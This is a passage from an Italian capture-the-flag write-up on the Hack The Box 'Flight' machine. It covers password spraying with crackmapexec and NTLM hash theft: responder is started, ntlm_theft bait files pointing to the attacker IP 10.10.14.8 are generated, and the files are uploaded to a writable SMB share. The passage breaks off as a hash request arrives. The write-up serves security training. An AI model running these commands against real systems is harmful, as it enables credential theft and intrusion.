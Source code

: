 Quindi eseguo il comando:

```bash
crackmapexec smb flight.htb -u ./utenti.txt -p 'S@Ss!K@*t13'
```

Così facendo scopro che l'utente _S.Moon_ utilizza la stessa password di _svc_apache_.

L'unica cosa che cambia rispetto all'utente _svc_apache_ è la possibilità di scrivere sulla cartella "Shared":

<p align="center">
  <img src="/Immagini/Windows-Box/Flight/flight-11.png"/>
</p>

## Lateral Movement
Per via del fatto che molti utenti potrebbero accedere alla cartella "Shared" devo trovare un modo per sfruttare questa possibilità.

In ambiente Windows, capita spesso che i file vengano eseguiti in maniera automatica quando inseriti all'interno di una cartella. Quindi cerco di sfruttare questa caratteristica per potermi mettere in contatto con la macchina vittima e ricavare l'hash di qualche utente.

Per fare questo utilizzo il tool [ntlm_theft](https://github.com/Greenwolf/ntlm_theft.git) che crea diversi file che potrebbero essere sfruttati per rubare l'hash di qualche utente che accede alla cartella.

Imposto _responder_ per intercettare eventuali richieste:

```bash
responder -I tun0 -v
```

```bash
python3 ntlm_theft.py --generate all --server 10.10.14.8 --filename htb
```

Successivamente, carico i file sulla cartella "Shared":

```bash
impacket-smbclient s.moon:'S@Ss!K@*t13'@flight.htb
use Shared
put "htb\FILE"
```

Dopo aver caricato alcuni il file _htb/desktop.ini_, ricevo la seguente richiesta dall'utente _c.bum_:
